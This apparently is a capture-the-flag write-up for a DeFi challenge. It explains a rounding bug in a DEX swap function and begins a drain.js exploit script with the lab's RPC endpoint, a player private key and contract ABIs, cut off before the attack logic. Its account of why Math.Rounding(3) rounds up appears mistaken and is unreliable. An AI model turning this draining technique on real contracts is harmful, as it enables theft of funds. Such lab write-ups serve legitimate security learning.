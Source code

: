         function swapForHLS() external payable underHeliosEye {
            uint256 grossHLS = Math.mulDiv(msg.value, exchangeRatioHLS, 1e18, Math.Rounding(3)); <----- That's the issue here
            uint256 fee = (grossHLS * feeBps) / 10_000;
            uint256 netHLS = grossHLS - fee;
            
            require(netHLS <= reserveHLS, "HeliosDEX: Helios grieves that the HSL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
            
    
            reserveHLS -= netHLS;
            heliosLuminaShards.transfer(msg.sender, netHLS);
    
            emit HeliosBarter(address(heliosLuminaShards), msg.value, netHLS);
        }

According to OpenZeppelin’s documentation for the Math Library:


    enum Rounding {
        Down, // Toward negative infinity --> Math.Rounding(0)
        Up, // Toward infinity --> Math.Rounding(1)
        Zero // Toward zero --> Math.Rounding(2)
    }

This means Math.Rounding(3) will cause unexpected behaviors, here are the key points:
Since `3` isn't defined, the compiler treats it as an undefined value, falling back to default rounding behavior which is **Up** [**🎉🎉🎉**](https://emojipedia.org/party-popper)

This rounding made me rich after 250 swaps! Just had to make sure to only swap 1 Wei each time and call the refund function once only, as per the contracts.


![](https://i.imgur.com/Kjig6bi.png)



drain.js script


    const { ethers } = require("ethers");
    
    // Your setup info
    const RPC_URL = "http://94.237.57.122:59310";
    const PLAYER_PRIVATE_KEY = "0xc355db294444232fe7a8e308550e87f2f79c617b7f04541d2f44348235dbf133";
    const PLAYER_ADDRESS = "0xF44279bF0072cd7BD98F4b994d3E7ad7ed15Cd45";
    
    // Contracts
    const SETUP_ADDRESS = "0xD05A41b677783bAB39B68499F8f11f8066A61545";
    
    const SETUP_ABI = [
      "function isSolved() public view returns (bool)",
      "function TARGET() public view returns (address)"
    ];
    
    const HELIOS_DEX_ABI = [
      "function swapForHLS() external payable",
      "function oneTimeRefund(address item, uint256 amount) external",
      "function heliosLuminaShards() external view returns (address)",
      "function hasRefunded(address user) external view returns (bool)"
    ];
    